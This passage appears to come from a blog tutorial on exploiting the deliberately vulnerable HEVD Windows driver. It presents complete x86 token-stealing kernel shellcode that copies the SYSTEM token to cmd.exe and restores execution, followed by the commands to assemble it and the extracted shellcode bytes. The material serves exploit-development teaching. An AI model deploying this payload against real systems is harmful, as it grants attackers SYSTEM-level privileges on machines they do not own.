 And finally restore execution. As we are writing in the stack, we had
surely mangled immediate stack frames of caller functions. If we look at
the stack after executing the shellcode, we can see that there is a
stack frame at which we can return to, located at `esp+0x10`:

<div class="imgblock">

![Previous unmangled stack frame](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-privilege-escalation/prev-ebp1_vmscb7.webp)

</div>

With that, we can add a restore point to our shellcode:

``` x86asm
pushad
mov eax, dword [fs:0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]              ; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]              ; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]              ; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4                ; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
add ecx, 0x0fc                          ; ECX now points to the Token of SYSTEM
mov ecx, [ecx]                          ; Copy contents of Token to ECX
mov [edi+0x0fc], ecx                    ; Move the Token of SYSTEM to cmd.exe
popad                                   ; Restore
xor eax,eax
inc eax
add esp,0x10
pop ebp
ret 8
```

Now, we can compile that code with:

``` console
> nasm -f elf32 -o steal.o steal.asm
```

And get the shellcode with:

``` console
$ for i in $(objdump -d steal.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x60\x64\xa1\x24\x01\x00\x00\x8b\x80\x50\x01\x00\x00\x8b\x90\x40\x01\x00\x00
\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00\x39\x91\xb4\x00\x00
\x00\x75\xec\x89\xcf\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00
\x83\xb9\xb4\x00\x00\x00\x04\x75\xeb\x81\xc1\xfc\x00\x00\x00\x8b\x09\x89\x8f
\xfc\x00\x00\x00\x61\x31\xc0\x40\x83\xc4\x10\x5d\xc2\x08\x00
```

